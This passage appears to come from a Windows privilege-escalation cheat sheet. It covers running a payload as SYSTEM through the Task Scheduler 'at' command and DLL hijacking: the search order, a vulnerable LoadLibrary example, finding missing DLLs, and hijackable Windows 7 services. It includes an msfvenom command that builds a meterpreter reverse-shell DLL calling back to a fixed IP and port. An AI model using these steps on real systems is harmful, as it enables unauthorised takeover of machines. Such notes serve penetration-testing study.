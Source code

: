 ### Task Scheduler

- On Windows 2000, XP, and 2003 machines, scheduled tasks run as SYSTEM privileges.
- Works only on  Windows 2000, XP, or 2003
- Must have local administrator

```
> net start "Task Scheduler"
> time
> at 06:42 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
```

### DLL Hijacking (DLL preloading attack or a binary planting attack)

- https://msdn.microsoft.com/en-us/library/windows/desktop/ff919712(v=vs.85).aspx
- Search order: https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx

```
When an application dynamically loads a dynamic-link library without specifying a fully qualified path name, Windows attempts to locate the DLL by searching a well-defined set of directories in a particular order, as described in Dynamic-Link Library Search Order.

The directory from which the application loaded.
The system directory.
The 16-bit system directory.
The Windows directory.
The current directory.
The directories that are listed in the PATH environment variable.
```

- Services running under SYSTEM does not search through user path environment.

Example:
```
#include "stdafx.h"
#include "windows.h"
void _tmain(int argc, _TCHAR* argv[])
{
  LoadLibrary(L"hijackable.dll");
}
```

Identify processes / services
- Use procman (https://technet.microsoft.com/en-us/sysinternals/processmonitor.aspx).
    - Filter `Result` = `NAME NOT FOUND` and `Path` ends with `dll`
- Look at the registry key `ServiceDll` of services (`Parameters`).

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.2.60 lport=8989 -f dll > hijackable.dll
```
#### Windows 7

```
IKE and AuthIP IPsec Keying Modules (IKEEXT) – wlbsctrl.dll
Windows Media Center Receiver Service (ehRecvr) – ehETW.dll
Windows Media Center Scheduler Service (ehSched) – ehETW.dll
```

